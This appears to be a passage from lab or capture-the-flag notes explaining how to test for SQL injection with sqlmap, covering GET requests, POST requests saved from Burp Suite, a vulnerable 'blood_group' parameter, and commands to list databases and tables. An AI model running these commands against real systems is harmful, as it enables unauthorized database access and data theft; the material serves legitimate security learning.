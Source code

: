 Another example:  
`sqlmap -u http://10.10.163.106/ai/includes/'user_login?email=test&password=test' --level=5`

### POST
Unlike GET-based testing, POST-based testing targets data sent in the request body, such as login or registration forms. To test for vulnerabilities, intercept the POST request, save it as a text file, and use SQLMap with:  
`sqlmap -r intercepted_request.txt`
OR you can use burp suite:  

![img.png](img/img_18.png)

blood_group parameter could be vulnerable. Test it with:  
```
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
sqlmap -r req.txt -p blood_group --dbs --> result database blood
```  
`-r` to read the file  
`-p` to supply vulnerable parameter  
To extract tables from blood database:  
**GET based method:**  
```
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```
